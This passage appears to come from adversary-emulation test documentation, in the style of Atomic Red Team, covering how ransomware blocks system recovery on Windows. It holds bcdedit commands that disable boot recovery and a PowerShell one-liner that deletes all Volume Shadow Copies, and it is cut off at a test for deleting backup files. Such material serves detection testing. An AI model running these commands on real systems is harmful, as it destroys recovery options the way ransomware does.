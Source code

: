 **Supported Platforms:** Windows

**auto_generated_guid:** cf21060a-80b3-4238-a595-22525de4ab81

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```

#### Cleanup Commands:

```cmd
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures >nul 2>&1
bcdedit.exe /set {default} recoveryenabled yes >nul 2>&1
```

<br/>
<br/>

## Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell

Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject.
This technique is used by numerous ransomware families such as Sodinokibi/REvil.
Executes Get-WMIObject. Shadow copies can only be created on Windows server or Windows 8, so upon execution
there may be no output displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** 39a295ca-7059-4a88-86f6-09556c1211e7

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```

<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files

Deletes backup files in a manner similar to Ryuk ransomware. Upon exection, many "access is denied" messages will appear as the commands try
to delete files from around the system.

**Supported Platforms:** Windows

**auto_generated_guid:** 6b1dbaf6-cc8a-4ea6-891f-6058569653bf

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)
